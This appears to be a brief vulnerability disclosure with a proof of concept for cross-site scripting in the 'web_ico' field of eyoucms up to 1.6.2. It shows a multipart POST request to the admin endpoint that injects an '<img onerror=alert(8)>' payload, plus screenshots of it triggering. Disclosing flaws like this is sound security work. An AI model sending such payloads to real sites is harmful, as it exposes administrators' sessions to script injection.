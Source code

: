 eyoucms up to 1.6.2 'web_ico' reflected xss vulnerability POC: 

```
POST /eyoucms/login.php?m=admin&c=System&a=web&lang=cn HTTP/1.1
*****************************************************

------WebKitFormBoundaryq3khRwDr0dBifJAy
********************************************

------WebKitFormBoundaryq3khRwDr0dBifJAy
Content-Disposition: form-data; name="web_ico"

<img src=1 onerror=alert(8)>
------WebKitFormBoundaryq3khRwDr0dBifJAy
**********************************************

------WebKitFormBoundaryq3khRwDr0dBifJAy--

```

![image](https://user-images.githubusercontent.com/55875284/230613377-31d58542-9d0f-466c-8a32-5e09e7b7a6ee.png)

Then when click the icon again, a XSS will be triggered

![image](https://user-images.githubusercontent.com/55875284/230613905-562f9d39-0078-4b1a-898c-2a43f3909ef7.png)
